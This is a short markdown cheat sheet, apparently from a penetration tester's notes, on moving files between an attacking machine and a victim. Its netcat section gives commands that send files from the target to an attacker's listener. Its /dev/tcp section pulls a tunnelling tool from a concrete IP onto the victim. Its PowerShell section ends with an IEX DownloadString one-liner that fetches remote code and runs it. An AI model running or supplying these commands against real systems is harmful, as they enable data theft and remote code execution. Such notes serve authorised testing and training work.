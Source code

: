 
## NC 
You can transfer files via netcat using setting up a listener on the box you want to receive the file like so;
`nc -lvnp 9001 > <FILE>`

On the system you want to extract files from, you can 
`nc <ATTACKING MACHINE 9001 < <FILE>`
or
`cat <file> | nc <ATTACKING MACHINE> 9001`


**You may need to terminate the nc listener receiving the file as it can hang and keep the connection active** 


## TCG you monster (/dev/tcp)
You can use `/dev/tcp` to transfer files in some janky horrid way
Host the file on your attack box like normal `nc -lvnp 9001 < <FILE>`

From the victim run 
`cat < /dev/tcp/<IP>/<PORT> > <FILENAME>`

`cat < /dev/tcp/10.11.41.83/9001 > chisel.b64`


## Powershell
Within a powershell cli, you can transfer files to your box with 
`Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILENAME>"`


`powershell.exe -c "IEX(New-Object Net.WebClient).DownloadString('http://<IP>/<FILE>')`